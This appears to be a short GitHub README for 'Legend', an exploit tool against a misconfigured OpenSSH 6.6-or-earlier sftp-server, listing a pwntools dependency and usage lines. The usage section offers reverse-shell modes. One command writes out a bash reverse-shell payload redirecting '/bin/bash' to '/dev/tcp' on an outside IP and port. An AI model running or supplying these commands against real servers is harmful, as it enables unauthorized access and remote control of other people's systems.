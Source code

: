 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit



## Dependencies
pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage
Reverse shell with python
```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

Reverse shell with bash
```sh
./legend.py -r 1.1.1.1 -p 22 -u user -P pass -c "/bin/bash -pi >& /dev/tcp/2.2.2.2/443 0>&1"
```
